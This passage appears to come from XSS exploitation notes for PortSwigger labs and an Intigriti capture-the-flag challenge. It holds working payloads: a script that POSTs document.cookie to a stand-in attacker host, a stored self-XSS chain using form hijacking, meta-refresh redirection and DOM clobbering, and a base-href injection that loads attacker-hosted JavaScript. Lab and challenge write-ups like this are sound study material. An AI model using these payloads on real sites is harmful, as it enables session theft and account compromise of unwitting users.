```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```  

[PortSwigger Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)  

#### Upgrade stored self-XSS  

>Blog comment with **Stored self-XSS**, upgrading the payload to steal victim information from DOM. The function **edit content** reflect the input in the `<script>` tag. The CSRF token for the **write comment** is same as the **edit content** functions. Below payload use **write comment** function to make the victim create a blog entry on their on blog with our malicious content. The `a` character is added to escape the `#` hash character from the initial application `source code`. The below `source code` in the blog entry is full exploit to steal victim info.  

```html
<button form=comment-form formaction="/edit" id=share-button>Click Button</button>
<input form=comment-form name=content value='<meta http-equiv="refresh" content="1; URL=/edit" />'>
<input form=comment-form name=tags value='a");alert(document.getElementsByClassName("navbar-brand")[0].innerText)//'>
```  

>This target is exploited by constructing an HTML injection that clobbers a variable named `share_button`, see `source code` below and uses HTML code above. The content is reflected on the page, then using this reflection enable page redirection to victim `/edit` page with the use of the `meta http-equiv` tag to refresh page after 1 second result in redirection.  

![clobbering javascript variable](images/clobbering5.png)  

```
https://challenge-1222.intigriti.io/blog/unique-guid-value-abc123?share=1
```  

>Deliver Exploit, by Sending url that reference the above blog entry to the victim will trigger XSS as them.  

[intigriti - Self-XSS upgrade - Solution to December 22 XSS Challenge](https://youtu.be/FowbZ8IlU7o)  

>Alternative exploit using HTML injection in the Edit Content blog entry page, ***identified*** using [XSS Resources CSP check](#xss-resources).  

```
<base href="https://Exploit.net">
```  

>Host JS file on Exploit server as `static/js/bootstrap.bundle.min.js`, with content:  

```
alert(document.getElementsByClassName("navbar-brand")[0].innerText)
```  
